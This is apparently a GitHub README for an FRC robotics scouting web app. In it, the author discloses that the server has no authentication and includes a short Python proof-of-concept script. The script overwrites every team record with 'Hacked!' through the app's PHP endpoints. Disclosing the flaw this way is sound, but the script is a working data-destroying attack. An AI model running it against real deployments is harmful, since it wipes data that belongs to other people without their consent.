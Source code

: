 # FRCScoutingWebApp
Server ready scouting app. I'd recommend you password protect the domain (It's pretty easy to wipe out all server data by modifying scripts or by creating a program ping the server).

I made this simple script in a few minutes; it will wipe out all the information in the team files (and replace it with "Hacked!" because we gotta have some fun). 

```python
import requests
import json
import sys

url = str(sys.argv[1])
url1 = "http://"+url+"/php/getAllTeams.php"
url2 = "http://"+url+"/php/setTeamInfo.php?q="
text = requests.get(url1).text

while text.find(",,") != -1 or text.find("[,") != -1 or text.find(",]") != -1:
    text = text.replace(",,", ",").replace("[,", "[").replace(",]", "]")

data = json.loads(text)

for i in data:
    requests.post(url2+str(i["Number"]), data={'data':'Hacked!'})
```
It's unlikely anyone would want to destroy anything, but as proof of concept it shows it's not secure. A security patch will be put out in the future with the server side verifying that a change request is valid.
